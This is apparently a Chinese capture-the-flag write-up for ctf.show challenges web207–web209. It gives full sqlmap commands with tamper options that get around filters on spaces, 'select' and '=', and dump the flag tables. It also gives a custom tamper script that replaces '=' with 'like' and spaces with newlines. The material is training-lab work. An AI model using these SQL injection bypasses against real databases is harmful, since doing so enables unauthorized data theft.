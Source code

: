 ## web207

过滤了空格, 使用 tamper 中的 space2comment.py 绕过

```bash
sqlmap.py -u "http://cfde58ec-6629-488a-ab99-aadff83d640c.challenge.ctf.show/api/index.php" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://cfde58ec-6629-488a-ab99-aadff83d640c.challenge.ctf.show/api/getToken.php" --safe-freq 1 --tamper "space2comment" --dump -T ctfshow_flaxca -D ctfshow_web
```

## web208

replace 一次 select, 本来想写 tamper 过滤的, 后来发现可能没有忽略大小写, sqlmap 自己直接就能跑

```bash
sqlmap.py -u "http://873ccc03-e52a-4a9e-b820-5b1d09533ccc.challenge.ctf.show/api/index.php" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://873ccc03-e52a-4a9e-b820-5b1d09533ccc.challenge.ctf.show/api/getToken.php" --safe-freq 1 --tamper "space2comment" --dump -T ctfshow_flaxcac -D ctfshow_web --batch
```

## web209

过滤了 ` ` `*` `=`

试了好久发现都不行, 最后把 `&page=1&limit=10` 删了竟然就能跑出来了... 而且还是联合查询

自写 tamper (测试自带的 equaltolike space2hash 等等都不行)

```python
# Needed imports
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    '''
    Description of your tamper script
    '''

    retVal = payload.replace("=", " like ").replace(" ", chr(0x0a))

    # your code to tamper the original payload

    # return the tampered payload
    return retVal
```

```bash
sqlmap.py -u "http://efe103d2-9fe4-463a-a8e5-38a00e2d73f2.challenge.ctf.show/api/index.php" --data "id=1" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://efe103d2-9fe4-463a-a8e5-38a00e2d73f2.challenge.ctf.show/api/getToken.php" --safe-freq 1 --tamper "my" --dump -T ctfshow_flav -D ctfshow_web
```
